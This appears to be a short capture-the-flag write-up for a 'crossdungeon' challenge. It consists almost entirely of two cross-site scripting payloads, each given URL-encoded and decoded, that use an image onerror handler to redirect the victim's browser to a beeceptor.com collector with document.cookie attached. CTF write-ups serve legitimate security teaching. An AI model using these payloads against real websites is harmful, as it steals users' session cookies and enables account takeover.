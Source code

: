 # Writeups

- http://crossdungeon.ec2qualifications.esaip-cyber.com/dungeon/-100/%3Cimg%20src=%22x%22%20onerror=%22document.location.href=%60https://writeup.free.beeceptor.com%3F$%7Bdocument.cookie%7D%60%22%3E
    * Url decoded: https://crossdungeon.ec2qualifications.esaip-cyber.com/dungeon/-100/<img src="x" onerror="document.location.href=`https://writeup.free.beeceptor.com?${document.cookie}`">
- http://crossdungeon.ec2qualifications.esaip-cyber.com/dungeon/-100/%3Cimg%20src=%22x%22%20onerror=%22document.location.href=%60https://writeup.free.beeceptor.com%3F%60+document.cookie%22%3E
    * Url decoded: https://crossdungeon.ec2qualifications.esaip-cyber.com/dungeon/-100/<img src="x" onerror="document.location.href=`https://writeup.free.beeceptor.com?`+document.cookie">
